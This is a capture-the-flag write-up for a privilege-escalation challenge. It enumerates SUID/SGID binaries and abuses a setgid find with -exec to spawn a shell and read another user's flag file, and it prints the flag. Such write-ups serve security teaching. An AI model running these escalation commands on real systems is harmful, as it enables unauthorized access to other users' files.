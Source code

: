 ## Finders Fee
`ssh -p PORT user@challenge.ctf.games`
**Escalate your privileges and uncover the `flag.txt` in the `finder` user's home directory.**
So we want to obtain `/home/finder/flag.txt`.
Once connected we quickly see there is very limited functionality of the environment, which can make it easier or more difficult. Basic steps usually involve investigating programs and processes that the user can use, potentially running with another user privileges. Sudo is not present for `sudo -l` checks, and `ps aux` returns nothing as well.

Another great way to enumerate is searching the file system for binaries executing with SUID and SGID set, indicating *possible* leverage of another user. Coincidentally, the `find` function is how you can achieve this, and is available as user. It also matches the overall theme of *finding* something.
```sh
find / -perm -2000 -type f 2>/dev/null
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd
/usr/bin/chage
/usr/bin/expiry
/usr/bin/find
/usr/bin/ssh-agent
find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
```
We can then use `ls -la <binary>` to check the privileges when executed. Going with the the **find** theme, lets check it.
```sh
 ls -la /usr/bin/find
-rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
```
Which tells us `find` is executing with the user `finder` permissions. This is good news, but we need to check if there are exploitation's available utilizing the `find` command. A great resource is [GTFOBins](https://gtfobins.github.io/gtfobins/find/). 
Looking at the examples, it appears as though command execution can be used within the arguments passed to `find`.  For example:
```sh
find . -exec /bin/sh \; -quit
```
This will spawn a shell, but because perm is 2000 we don't inherit the groups permissions, so we are still spawning a shell as user. But, we can also pass other commands instead of /bin/sh. Perhaps we can try to read the flag.txt by modifying the command like so:
```sh
find . -exec cat /home/finder/flag.txt \; -quit
flag{5da1de289823cfc200adf91d6536d914}
```
Success! Read further into SUID and SGID exploitation for more details.
